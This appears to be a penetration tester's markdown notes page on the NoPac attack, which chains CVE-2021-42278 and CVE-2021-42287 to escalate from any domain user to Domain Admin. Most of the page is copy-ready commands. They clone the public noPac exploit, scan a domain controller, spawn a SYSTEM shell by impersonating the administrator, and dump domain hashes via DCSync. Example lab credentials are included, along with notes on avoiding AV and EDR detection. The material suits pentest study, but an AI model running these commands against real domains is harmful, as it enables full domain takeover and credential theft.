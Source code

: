 ```yaml
---
title: NoPac (SamAccountName Spoofing)
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
---
```

# 🪤 NoPac (SamAccountName Spoofing)

!!! tips "Detailed explanations"
	- [noPac: A Tale of Two Vulnerabilities That Could End in Ransomware](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).
	- [SAM Name impersonation](https://techcommunity.microsoft.com/users/daniel%20naim/164126).

This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

| 42278                                                                      | 42287                                                                                         |
| -------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `42278` is a bypass vulnerability with the Security Account Manager (SAM). | `42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS. |

```bash
# Ensuring Impacket is Installed
git clone https://github.com/SecureAuthCorp/impacket.git

python setup.py install 

# Cloning the NoPac Exploit Repo
git clone https://github.com/Ridter/noPac.git
```

Once Impacket is installed and we ensure the repo is cloned to our attack box, we can use the scripts in the NoPac directory to check if the system is vulnerable using a scanner (scanner.py) then use the exploit (noPac.py) to gain a shell as NT AUTHORITY/SYSTEM. 


```bash
# First we will scan:
sudo python3 scanner.py $domain/$userSamAccounName:$password -dc-ip $domainControllerIP -use-ldap
# Example:
# sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

We will obtain the `ms-DS-MachineAccountQuota` number. If it is set to 0, the attack will not work.

```bash
# Running NoPac & Getting a semi-interactive shell session  using smbexec.py -https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py. This could be "noisy" or may be blocked by AV or EDR.
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname -shell --impersonate $userAdmin -use-ldap
# Example: 
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

Important: It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run (We can use `ls` to confirm).

```bash
# We could then use the cache file to perform a pass-the-ticket and perform further attacks such as DCSync.  Using noPac to DCSync the Built-in Administrator Account
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc-user $domain/$userAdmin
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

# We can also dump all
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc
```

### Mitigations

**If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py.**

If Windows Defender (or another AV or EDR product) is enabled on a target, our shell session may be established, but issuing any commands will likely fail. 

The first thing smbexec.py does is create a service called `BTOBTO`. Another service called `BTOBO` is created, and any command we type is sent to the target over SMB inside a .bat file called `execute.bat`. With each new command we type, a new batch script is created and echoed to a temporary file that executes said script and deletes it from the system. Let's look at a Windows Defender log to see what behavior was considered malicious.